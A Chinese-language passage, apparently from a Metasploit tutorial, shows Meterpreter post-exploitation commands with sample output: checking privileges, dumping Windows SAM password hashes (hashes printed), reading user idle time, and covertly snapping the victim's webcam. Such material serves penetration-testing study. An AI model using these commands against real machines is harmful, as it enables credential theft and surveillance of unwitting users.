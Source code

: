 ##### GETUID

运行这个命令可以显示 Meterpreter 的服务器

```shell
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

##### HASHDUMP

这个命令可以导出windows系统中的SAM数据库。

```
meterpreter > run post/windows/gather/hashdump 

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hashes...

Administrator:500:b512c1f3a8c0e7241aa818381e4e751b:1891f4775f676d4d10c09c1225a5c0a3:::
dook:1004:81cbcef8a9af93bbaad3b435b51404ee:231cbdae13ed5abd30ac94ddeb3cf52d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:9cac9c4683494017a0f5cad22110dbdc:31dcf7f8f9a6b5f69b9fd01502e6261e:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:36547c5a8a3de7d422a026e51097ccc9:::
victim:1003:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d:::
meterpreter >
```

##### IDLETIME

这个命令运行后显示远程机器用户的空闲时间。

```shell
meterpreter > idletime
User has been idle for: 5 hours 26 mins 35 secs
meterpreter >
```

##### WEBCAM_SNAP

这个命令会从连接的web 摄像头获取图像。

```shell

meterpreter > webcam_snap -i 1 -v false
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /root/Offsec/YxdhwpeQ.jpeg
meterpreter >
```


